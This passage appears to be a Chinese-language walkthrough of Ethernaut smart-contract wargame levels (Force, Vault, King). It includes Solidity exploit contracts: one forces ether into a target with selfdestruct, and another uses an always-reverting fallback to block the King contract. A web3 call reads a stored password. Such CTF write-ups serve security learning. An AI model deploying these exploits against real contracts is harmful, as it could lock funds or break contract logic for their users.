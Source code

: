 ```solidity
pragma solidity ^0.4.18;

contract Force {}

contract MyContract {
    Force c;
    function MyContract(address _c) public {
        c = Force(_c);
    }
    
    function exploit() payable public {
        selfdestruct(c);
    }
}
```

# level8 vault
区块链上所有东西都是公开的，查看json rpc文档可知道有`eth.getStorageAt()` API，根据solidity的“对象模型” (http://solidity.readthedocs.io/en/develop/miscellaneous.html)，可知`password`放在storage的1的位置

console里输入即可查看密码：
```js
web3.eth.getStorageAt(contract.address, 1, console.log);
```

如果在remix里调用unlock注意一下remix对bytes32参数的格式："0xXXXXXXXXX..." （包括双引号）

# level9 King
`king.transfer`函数在调用失败时会抛异常，后面`king = msg.sender;`就不会被执行，我们就达到目标了，因此只要让transfer时失败就行，我们让king不能接受eth transfer即可

```solidity
pragma solidity ^0.4.18;

contract King {
  address public king;
  uint public prize;
  function() external payable;
}

contract FallbackThrowException {
    address owner;
    
    function FallbackThrowException(address _c) payable public {
        owner = msg.sender;
        King c = King(_c);
        c.call.value(c.prize())();
    }
    
    function dtor() {
        selfdestruct(owner);
    }
    
    function() payable {
        throw;
    }
}
```
